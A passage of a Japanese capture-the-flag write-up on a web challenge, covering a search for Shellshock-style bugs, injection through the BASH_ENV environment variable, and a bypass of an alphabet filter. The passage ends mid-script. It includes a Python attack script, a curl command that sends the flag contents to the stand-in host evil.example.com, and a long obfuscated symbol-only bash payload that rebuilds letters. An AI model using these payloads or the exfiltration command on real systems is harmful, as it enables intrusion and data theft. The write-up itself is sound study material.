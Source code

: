 まず、存在しないコマンドを叩いてるのは明らかにおかしいので、ここが問題の中心。bashにいい感じの環境変数を渡すことで、存在しないコマンドを叩いたときの挙動が変わることができたらうれしい。

調べてみるとshell shock[^bb-1]の記事が見つかった:

- [CVE-2014-6271　Shell shock脆弱性解説 - Marsの5εcur1ty備忘録](https://marsblog.hatenablog.jp/entry/2019/02/17/054844)
- [bash - 環境変数から関数を取得する機能のセキュリティ強化 - 気ままなブログ](https://entree.hatenadiary.org/entry/20140928/1411885652)

[^bb-1]: 結局この問題では使えなかったが、名前は聞いたことがあったが中身を知らなかった有名脆弱性だったので丁度よい勉強になった。

今回の問題であれば、`BASH_FUNC_imdude%%`の環境変数を任意に登録できたら任意コード実行が可能になる。ただし、`system`関数実行時に経由するsh（中身はdash）が`%`を含む名前の環境変数を拒否するということをチームメンバが発見してくれて、無理だということがわかった。

途方に暮れていたら、チームメンバが
```
BASH_ENV=$(cat /flag | hogehoge)
```
のように環境変数を登録すると任意コード実行できることを発見してくれたので、あとは環境変数の値部分のバリデーションをbypassするだけとなった。

環境変数の値は`"/[a-zA-Z]/i"`にマッチしないようにする必要がある。これはシュル芸で記号オンリーでアルファベットを生成する手法がある[^bb-2]ので、それを使えばOK:

- [記号だけでシェルは操れた - Ryoto's Blog](https://www.ryotosaito.com/blog/?p=194)

[^bb-2]: 日本はシェル芸が活発な界隈（？）があるので、資料が豊富でいいですね。この手の問題は日本人が有利かも。

### 攻撃

```python
import httpx
import string
from urllib.parse import quote

BASE_URL = "http://34.84.94.104"
# BASE_URL = "http://localhost:3000"

HOOK_URL = "https://evil.example.com"

COMMAND = f'curl "{HOOK_URL}/$(cat /flag)"'

# ref. https://www.ryotosaito.com/blog/?p=194
ALPHABET_PAYLOAD = r'__=$(($$/$$));___=$(($__+$__));____=$(.&>/???/??/$__);____=${____##*.};_____=$(${____:$(($___$(($$-$$))-$__)):$__}${____:$___*$___:$__}${____:$(($___$(($$-$$))-$___)):$__} -${____:$__$(($__+$___)):$__}&>/???/??/$__);_____=${_____##*${____:$(($___$(($$-$$))-$__)):$__}${____:$___*$___:$__}${____:$(($___$(($$-$$))-$___)):$__}};_____=${_____,,};______=($(${____:$(($___*$___)):$__}${_____:$__$(($___*$___)):$__}${____:$(($___*$___+$___)):$__}${____:$(($___+$__)):$__} ${____:$(($___*$___)):$__}${_____:$(($___*$___*$___*$___+$__)):$__}${_____:$(($___*$___*$___-$__)):$__}${_____:$___$(($___*$___)):$__} $(${____:$(($___*$___)):$__}${_____:$(($___*$___*$___*$___+$__)):$__}${_____:$(($___*$___*$___-$__)):$__}${_____:$___$(($___*$___)):$__}  -${____:$(($___*$___)):$__} "{\\${____:$__$(($___*$___)):$__}$(($___*$___+$___))$__..\\${____:$__$(($___*$___)):$__}$(($___*$___*$___-$__))${____:$__$__:$__}}")));_______=($(${____:$(($___*$___)):$__}${_____:$__$(($___*$___)):$__}${____:$(($___*$___+$___)):$__}${____:$(($___+$__)):$__} ${____:$(($___*$___)):$__}${_____:$(($___*$___*$___*$___+$__)):$__}${_____:$(($___*$___*$___-$__)):$__}${_____:$___$(($___*$___)):$__}  $(${____:$(($___*$___)):$__}${_____:$(($___*$___*$___*$___+$__)):$__}${_____:$(($___*$___*$___-$__)):$__}${_____:$___$(($___*$___)):$__}  -${____:$(($___*$___)):$__} "{\\${____:$__$(($___*$___)):$__}$(($___*$___))$__..\\${____:$__$(($___*$___)):$__}$(($___*$___+$__))${____:$__$__:$__}}")))'
# echo ${______[1]} -> b
# echo ${_______[1]} -> B


def convert_char(c: str) -> str:
    assert len(c) == 1
    i = string.ascii_lowercase.find(c)
    if i >= 0:
        return "${______[" + str(i) + "]}"
    i = string.ascii_uppercase.find(c)
    if i >= 0:
        return "${_______[" + str(i) + "]}"
    return c

```